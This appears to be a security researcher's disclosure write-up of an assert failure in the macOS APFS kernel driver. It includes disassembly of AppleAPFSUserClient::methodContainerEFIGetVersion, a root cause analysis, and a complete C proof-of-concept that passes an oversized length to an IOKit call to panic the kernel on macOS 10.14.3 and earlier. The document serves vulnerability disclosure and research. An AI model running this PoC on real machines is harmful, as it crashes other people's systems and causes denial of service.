```yaml
---
layout: default
author: juwei lin
date: 2019-02-02 10:16:00 +0800
---
```


# Apple APFS copyin assert failure case 

## Overview
There is an assert failure case in function `AppleAPFSUserClient::methodContainerEFIGetVersion`.  

## Root Cause Analysis

In function `AppleAPFSUserClient::methodContainerEFIGetVersion`:
```
__text:0000000000016146 ; AppleAPFSUserClient::methodContainerEFIGetVersion(AppleAPFSUserClient*, void *, IOExternalMethodArguments *)
__text:0000000000016146 __ZN19AppleAPFSUserClient28methodContainerEFIGetVersionEPS_PvP25IOExternalMethodArguments proc near
__text:0000000000016146                                         ; DATA XREF: __const:00000000000F92D0o
__text:0000000000016146
__text:0000000000016146 var_68          = qword ptr -68h
__text:0000000000016146 var_60          = qword ptr -60h
__text:0000000000016146 var_58          = qword ptr -58h
__text:0000000000016146 var_50          = qword ptr -50h
__text:0000000000016146 var_48          = qword ptr -48h
__text:0000000000016146 var_40          = qword ptr -40h
__text:0000000000016146 var_38          = qword ptr -38h
__text:0000000000016146 var_30          = dword ptr -30h
__text:0000000000016146 var_2C          = dword ptr -2Ch
__text:0000000000016146
__text:0000000000016146                 push    rbp
__text:0000000000016147                 mov     rbp, rsp
__text:000000000001614A                 push    r15
__text:000000000001614C                 push    r14
__text:000000000001614E                 push    r13
__text:0000000000016150                 push    r12
__text:0000000000016152                 push    rbx
__text:0000000000016153                 sub     rsp, 48h
__text:0000000000016157                 mov     r15, rdi
__text:000000000001615A                 mov     rax, [rdx+30h]  ; structinput
__text:000000000001615E                 mov     rdx, [rdx+58h]
__text:0000000000016162                 mov     r12, [rax]
__text:0000000000016165                 mov     esi, [rax+8]    ; user-supplied size ---(1.a)
__text:0000000000016168                 test    r12, r12
__text:000000000001616B                 jz      short loc_161BE
__text:000000000001616D                 mov     r14, rdx
__text:0000000000016170                 mov     edi, 1
__text:0000000000016175                 mov     rbx, rsi
__text:0000000000016178                 call    __apfs_calloc ---(1.b)
__text:000000000001617D                 test    rax, rax
__text:0000000000016180                 jz      short loc_161C3
__text:0000000000016182                 mov     rdi, r12
__text:0000000000016185                 mov     r12, rax
__text:0000000000016188                 mov     rsi, rax
__text:000000000001618B                 mov     r13, rbx
__text:000000000001618E                 mov     rdx, rbx
__text:0000000000016191                 call    _copyin ---(1.c)
```

At 1.b, apfs_calloc calls MALLOC to allocate memory with size assigned from user, at 1.c user buffer will copyin to the new allocated memory. If user set the size as 65MB and apfs_calloc succeed allocation, copyin will panic due to too large memory copy.

## PoC Code

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <IOKit/IOKitLib.h>


void trigger(io_connect_t conn)
{
    uint64_t INPUTSCALAR[8];
    uint32_t INPUTSCALARCNT = 0;
    
    char INPUTSTRUCT[4096];
    size_t INPUTSTRUCTCNT = 16;
    
    uint64_t OUTPUTSCALAR[8] = {0};
    uint32_t OUTPUTSCALARCNT = 0;
    
    char OUTPUTSTRUCT[4096];
    size_t OUTPUTSTRUCTCNT = 8;
    
    //FILL INPUT
    *(uint64_t*)(&INPUTSTRUCT[0]) = (uint64_t)INPUTSCALAR;
    //*(uint64_t*)&(INPUTSTRUCT[8]) = 1919249516;
    *(uint64_t*)&(INPUTSTRUCT[8]) = 68157440;
    

    kern_return_t kr = IOConnectCallMethod(
                            conn,
                            12,
                            INPUTSCALAR,
                            INPUTSCALARCNT,
                            INPUTSTRUCT,
                            INPUTSTRUCTCNT,
                            OUTPUTSCALAR,
                            &OUTPUTSCALARCNT,
                            OUTPUTSTRUCT,
                            &OUTPUTSTRUCTCNT);
    if (kr != KERN_SUCCESS) {
        printf("send failure, err: 0x%x\n", kr);
    }
}


int main(){
    
    kern_return_t err;
    
    CFMutableDictionaryRef Matching = IOServiceMatching("AppleAPFSContainer");
    
    if(!Matching){
        
        printf("UNABLE TO CREATE SERVICE MATCHING DICTIONARY\n");
        
        return 0;
        
    }
    
    io_iterator_t iterator;
    
    err = IOServiceGetMatchingServices(kIOMasterPortDefault, Matching, &iterator);
    
    if (err != KERN_SUCCESS){
        
        printf("NO MATCHES\n");
        return 0;
    }
    
    io_service_t service = IOIteratorNext(iterator);
    
    if (service == IO_OBJECT_NULL){
        
        printf("UNABLE TO FIND SERVICE\n");
        
        return 0;
        
    }
    
    io_connect_t CONN = MACH_PORT_NULL;
    
    err = IOServiceOpen(service, mach_task_self(), 0, &CONN);
    
    if (err != KERN_SUCCESS){
        
        printf("UNABLE TO GET USER CLIENT CONNECTION\n");
        
        return 0;
        
    }else{
        
        printf("GOT USERCLIENT CONNECTION: %X, TYPE:%D\n", CONN, 0);
        
    }
    
    for (int i=0; i<1000; i++) {
        trigger(CONN);
    }
    
    
    printf("PANIC?\n");
    
    return 0;
    
}
```


## Panic log
See attachment.

## Q & A

### How did you find this vulnerability?
by fuzzing.

### Can you identify exploitability?
This is an assert failure, it cannot be used for exploit.

### Can you identify root cause?
Yes, see the root cause analysis.

### Vulnerable software and hardware
macOS 10.14.3 and all before